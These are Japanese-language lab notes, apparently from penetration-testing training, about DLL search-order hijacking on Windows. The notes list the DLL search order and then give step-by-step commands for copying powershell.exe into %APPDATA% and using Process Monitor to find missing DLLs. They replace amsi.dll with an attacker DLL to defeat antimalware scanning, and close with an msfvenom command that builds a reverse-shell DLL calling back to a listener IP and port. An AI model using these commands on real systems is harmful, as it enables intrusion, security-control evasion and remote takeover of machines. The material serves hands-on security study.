








### DLL search Order hijack

* DLLを探す順番

  •実行されたアプリケーションのディレクトリ
  •システムディレクトリ（C:¥Windows¥System32
  •16bit システムディレクトリ（ C:¥Windows¥System
  •Windowsディレクトリ
  •カレントディレクトリ
  •PATH環境変数で定義されたディレクトリ
  •コマンドプロンプトで、`echo %PATH%`

同名のDLLを前のディレクトリにおいて、ハイジャックする。

□ ％APPDATA％



* powershell.exeをコピーする

  ```
  copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe %APPDATA%\powershell.exe
  ```

  

* プロセスモニターを起動する

  ```
  C:\Users\Administrator.EC2AMAZ-QSCU18V\AppData\Roaming>C:\Users\Administrator.EC2AMAZ-QSCU18V\Desktop\Tools\SysinternalsSuite\Procmon.exe
  ```

  ※procmonで「not found」となっている.dllを探す

* powershell.exeのプロセスを探し、amsi.dllの実行状況を見る

  ```
  %APPDATA%\powershell.exe
  ```

  フィルターアイコンを押下

  Process Name is powershell.exe

  Path contains amsi.dll

  を「Add」してApplyを押下すると検索条件が絞られる

  

  

* amsi.dllをカレントディレクトリに配置する

  ```
   copy C:\Windows\System32\amsi.dll .\Roaming\am
  si.dll
  ```

* powershell.exeを再度実行しプロセスモニタリングする

  

* amsi.dllの中身をhijack.dllの中身で置き換える

  ```
  copy %USERPROFILE%\Desktop\Penetration\hijack.dll %APPDATA%\amsi.dll
  ```

  

  ずっとpsのままだとcopyできないので注意

  

  

□ 時間が余ったらmsfvenomで作成したリバースシェルを用いてamsi.dllを作成する。

* msfvenomでリバースシェルを作成する

  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows LHOST=192.168.11.156 LPORT=1234 -f dll > amsi.dll
  ```

  

□後ほど置き換えてリバースシェルを張る